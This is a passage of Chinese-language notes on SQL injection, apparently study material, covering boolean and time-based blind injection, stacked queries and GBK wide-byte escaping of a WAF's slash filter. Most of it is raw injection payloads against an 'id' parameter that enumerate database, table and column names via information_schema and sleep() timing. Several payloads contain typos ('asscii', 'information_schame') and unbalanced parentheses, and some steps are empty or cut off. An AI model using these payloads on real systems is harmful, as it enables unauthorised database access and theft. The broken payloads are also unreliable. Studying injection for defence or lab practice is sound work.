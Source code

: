 ```
```
### 3、布尔盲注：</br>
1#获得数据库名长度为8</br>
```
?id=1' and (length(database())=8)%23           #有回显
```
2#获得数据库名</br>
```
?id=1' and ascii(substr(database(),1,1))<100 %23             #无回显
?id=1' and ascii(substr(database(),1,1))=115 %23             #有回显
```
3#获得数据库表名个数</br>
```
?id=1' and (select count(*) from information_schema.tables where table_schema=database())=4%23         #有回显
```
4#获得数据库表名长度</br>
```
?id=1' and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=6%23 
```
5#获得数据库表名</br>
```
?id=1' and ascii((substr ((select table_name from information_schema.tables where table_schema=database() limit 0,1),0,1)))=106%23
```
6#获取列名</br>
 </br>
7#获得数据            </br>              
 </br>
### 4、时间盲注：</br>
1#获得数据库名长度</br>
```
?id=1' and if((length(database())>5),sleep(5),1)%23        #有时间延迟，说明判断正确
?id=1' and if((length(database())>9),sleep(5),1)%23        #无时间延迟，说明判断错误
?id=1' and if((length(database())>5),1,sleep(5))%23        #无时间延迟，说明判断正确
```
2#获得数据库名</br>
```
?id=1' and if((ascii(substr(database(),1,1))>100,sleep(5),1))%23                 #有无回显
```
3#获得表名（同理先获取长度）</br>
```
?id=1' and if((asscii(substr((select table_name from information_schame.tables where table_schame=database() limit 0,1),1,1)))>100,sleep(5),1)            #有无回显
```
4#获取数据库列名（先拿列长度？）</br>
```
?id=1' and if
```
5#获取数据</br>
```
?id=1' and if
```
### 5、堆叠注入：
mysqli_query函数不支持堆叠注入，mysqli_muiti_query()支持堆叠注入。</br>
语法：select * from users;create table you(id int);#      </br>
id=1';create table you(id int);#</br>
### 6、内联注入：
子查询：select (select 1)</br>
### 7、宽字节注入：
在GBK编码格式的MySQL数据库中，针对敏感符号前添加斜杠这种过滤方式，利用两个字节构成一个汉字的原理，我们在敏感符号前加%81-%FE之间的URL编码，与斜杠/共同组成一个汉字，从而吃掉斜杠/绕过waf。</br>